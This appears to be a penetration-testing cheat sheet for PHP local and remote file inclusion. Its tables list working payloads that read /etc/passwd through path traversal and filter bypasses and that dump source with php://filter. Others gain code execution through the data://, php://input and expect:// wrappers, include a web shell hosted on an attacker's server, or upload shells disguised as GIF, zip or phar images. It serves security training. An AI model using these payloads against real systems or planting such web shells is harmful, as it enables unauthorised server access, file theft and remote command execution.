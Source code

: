 ## 🛡️ Local File Inclusion (LFI) {.cols-1}

### 🔍 Basic LFI

| Command                                                  | Description             |
| -------------------------------------------------------- | ----------------------- |
| `/index.php?language=/etc/passwd`                        | Basic LFI               |
| `/index.php?language=../../../../etc/passwd`             | LFI with path traversal |
| `/index.php?language=/../../../etc/passwd`               | LFI with name prefix    |
| `/index.php?language=./languages/../../../../etc/passwd` | LFI with approved path  |

### 🛡️ LFI Bypasses

| Command                                                                                              | Description                                               |
| ---------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| `/index.php?language=....//....//....//....//etc/passwd`                                             | Bypass basic path traversal filter                        |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`             | Bypass filters with URL encoding                          |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./... repeated ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00`                                                      | Bypass appended extension with null byte (obsolete)       |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                        | Read PHP with base64 filter                               |

## Remote Code Execution {.cols-1}

### ⚙️ PHP Wrappers

| Command                                                                                                                     | Description                    |
| --------------------------------------------------------------------------------------------------------------------------- | ------------------------------ |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with `data` wrapper        |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with `php://input` wrapper |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with `expect://` wrapper   |

### 🌐 RFI (Remote File Inclusion)

| Command                                                                                        | Description                  |
| ---------------------------------------------------------------------------------------------- | ---------------------------- |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell               |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                        | Include remote PHP web shell |

### 🖼️ LFI + Upload

| Command                                                                        | Description                           |
| ------------------------------------------------------------------------------ | ------------------------------------- |
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                        | Create malicious image                |
| `/index.php?language=./profile_images/shell.gif&cmd=id`                        | RCE with malicious uploaded image     |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip#shell.php&cmd=id`                         | RCE with malicious uploaded zip       |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`            | Create malicious phar 'as jpg'        |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`     | RCE with malicious uploaded phar      |
